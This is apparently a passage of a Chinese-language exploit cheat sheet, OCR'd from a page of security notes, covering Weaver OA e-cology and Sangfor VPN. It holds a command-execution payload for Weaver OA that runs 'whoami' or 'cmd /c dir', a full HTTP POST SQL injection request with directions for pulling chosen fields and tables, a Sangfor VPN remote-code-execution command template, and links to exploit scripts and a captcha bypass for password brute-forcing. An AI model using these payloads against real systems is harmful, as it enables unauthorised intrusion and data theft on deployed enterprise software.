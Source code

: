 &emsp;&emsp;`eval%00("ex"%2b"ec(\"whoami\")");`也可以换成`ex\u0065c("cmd /c dir");`。 

&emsp;&emsp;[CNVD-2019-32204利用脚本](https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204)。

### 泛微OA e-cology SQL注入漏洞

&emsp;&emsp;[泛微OA WorkflowCenterTreeData接口注入漏洞(限oracle数据库)](https://xz.aliyun.com/t/6531)。

&emsp;&emsp;漏洞利用：修改NULL后为要查询的字段名，修改from后为查询的表。

```
POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 2236
Connection: close
Upgrade-Insecure-Requests: 1


formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0 d%0a%0d%0a%0
```

![](/img/HW-Vuln/HW14.png)

### 深信服 VPN 远程代码执行

&emsp;&emsp;深信服vpnweb登录逆向学习：`https://www.cnblogs.com/potatsoSec/p/12326356.html`

&emsp;&emsp;漏洞利用：`wget -t %d -T %d --spider %s`

### 深信服 VPN 口令爆破

&emsp;&emsp;[关于SSL VPN认证时的验证码绕过](https://bbs.sangfor.com.cn/forum.php?mod=viewthread&tid=20633)。

### 常见边界产品(防火墙, 网关, 路由器, VPN) 弱口令漏洞
